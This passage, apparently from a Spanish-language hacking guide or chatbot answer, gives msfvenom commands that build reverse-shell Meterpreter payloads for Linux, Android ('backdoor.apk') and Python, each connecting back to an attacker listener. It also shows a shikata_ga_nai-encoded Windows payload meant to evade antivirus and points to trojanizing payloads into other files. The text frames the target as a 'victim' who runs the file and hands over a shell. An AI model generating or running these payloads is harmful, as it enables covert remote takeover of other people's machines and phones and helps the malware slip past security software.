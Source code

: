 👉 **Cuando la víctima ejecute `shell.exe`, se conectará a tu máquina.**

---

### ✅ 2️⃣ **Payload para Linux (.elf)**

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=5555 -f elf -o shell.elf
```

---

### ✅ 3️⃣ **Payload para Android (.apk)**

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=8080 -o backdoor.apk
```

---

### ✅ 4️⃣ **Payload Python (útil para entornos tipo Linux)**

```bash
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=9001 -f raw -o payload.py
```

---

### ✅ 5️⃣ **Payload con evasión antivirus (encoder)**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o shell_enc.exe
```

- `-e x86/shikata_ga_nai`: codifica el payload.
- `-i 5`: codifica 5 veces.

👉 **Más difícil de detectar por antivirus comunes.**

---

### ✅ 6️⃣ **Insertar el payload en otro archivo (embedding)**

⚠️ Esta es una técnica más avanzada (trojanizar), requiere herramientas como `msfvenom` + `msfconsole` + editores binarios o herramientas como `backdoor-factory`.

---

### ✅ 7️⃣ **Ver todos los payloads disponibles**

```bash
msfvenom -l payloads
```

---
